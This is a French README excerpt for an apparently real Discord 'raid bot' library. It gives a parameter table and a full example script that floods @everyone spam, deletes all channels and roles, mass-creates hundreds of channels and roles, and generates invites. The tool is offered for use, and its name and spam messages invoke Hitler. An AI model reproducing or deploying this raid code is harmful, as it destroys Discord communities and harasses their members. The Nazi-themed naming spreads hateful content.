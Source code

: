 ***
### **Créer des rôles sur un serveur**
| Paramètre | Type | Optionnel | Description |
| --- | --- | --- | --- |
| commande | String | Non | Commande à envoyer pour déclencher la fonction|
| parametres | Object | Oui | Paramètres de la création|
| parametres.rolesName | String | Oui | Nom des rôles à créer|
| parametres.rolesNumber | Number | Oui | Nombre de rôles à créer|
***
***
***
## **Exemple complet** de bot raid complet**
```js
const Discord = require('discord.js');
const MagicHitler = require('magic_hitler');
const client = new Discord.Client();
const raid = new MagicHitler.Client({
    client: client,
    prefix: "!"
});

raid.ready();

raid.sendMessage("Test réussi", "test");
raid.spamMessages("@everyone Raid by Magic Hitler", "spam", {
    messageNumber: 100,
    allChannels: false
});
raid.spamMessage("@everyone Raid by Magic Hitler", "spamAllChannels", {
    messageNumber: 20,
    allChannels: true
});     // On peut déclarer plusieurs fois la même fonction

raid.deleteChannel("del");
raid.deleteChannels("delAll", {
    createChannel: true,
    createdChannelName: "raid-by-magic-hitler",
    createChannelMessage: "@everyone Raid by Magic Hitler"
});
raid.createChannels("create", {
    createChannelName: "magic-hitler",
    sendMessageContent: "@everyone Raid by Magic Hitler",
    sendMessageCount: 3,
    createChannelCount: 222
});
raid.createInvite("invite", false);
raid.createInvite("inviteall", true);

raid.deleteRoles("delRoles");
raid.createRoles("createRoles", {
    rolesNumber: 69,
    rolesName: "Magic Hitler"
});

client.login('token de votre bot');
```

Plus de 400 lignes de codes résumées en 31.
